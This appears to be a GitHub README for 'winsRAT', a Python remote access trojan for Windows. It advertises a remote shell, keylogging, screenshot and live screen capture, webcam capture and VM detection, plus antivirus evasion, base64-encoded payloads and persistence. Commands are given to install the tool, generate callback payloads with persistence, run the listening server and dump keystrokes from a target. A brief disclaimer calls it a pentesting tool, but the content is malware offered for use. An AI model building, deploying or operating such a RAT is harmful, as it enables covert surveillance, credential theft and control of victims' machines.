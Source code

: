 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="winsRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This code shows the features of the tool.
```bash
def help_c_current(self):
        headers = (pull.BOLD + 'Command' + pull.END, pull.BOLD + 'Description' + pull.END)
        lister  = [
            ('help', 'Shows manual for commands'),
            ('sessions', 'Show all connected clients to the server'),
            ('connect', 'Connect to a Specific Client'),
            ('disconnect', 'Disconnect from Current Client'),
            ('clear', 'Clear Screen'),
            ('shell'  , 'Launch a New Terminal/Shell.'),
            ('keylogger', 'KeyLogger Module'),
            ('sysinfo', 'Dump System, Processor, CPU and Network Information'),
            ('screenshot', 'Take Screenshot on Target Machine and Save on Local'),
            ('screenshare' , 'Take Screenshot on Target Machine and Share in Real Time'),
            ('webcam', 'Capture Webcam Image and Save on Local'),
            ('antivm' , 'Check if the target is a VM to change the behavior of winsRAT.'),
            ('exit', 'Exit from winsRAT!')
            
            
        ]
```
- And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- RAT behavior changes when encountering a VM target (under development)
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
git clone https://github.com/ThemeHackers/winsRAT
cd winsRAT/
pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.
